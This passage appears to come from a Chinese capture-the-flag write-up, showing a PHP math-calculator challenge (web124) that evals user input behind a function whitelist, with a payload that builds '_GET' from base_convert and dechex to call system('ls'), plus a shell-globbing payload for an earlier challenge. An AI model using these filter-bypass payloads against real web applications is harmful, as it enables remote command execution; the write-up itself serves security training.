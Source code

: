 ```php

?>


```

**payload**

```
<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
```

---

### 类型六

构建get后门

#### web124

```php
 <?php

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
    $whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
    preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);  
    foreach ($used_funcs[0] as $func) {
        if (!in_array($func, $whitelist)) {
            die("请不要输入奇奇怪怪的函数");
        }
    }
    //帮你算出答案
    eval('echo '.$content.';');
} 
```

**payload**

```
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{abs}($$pi{acos});&abs=system&acos=ls
```

---

<div style="page-break-after:always"></div>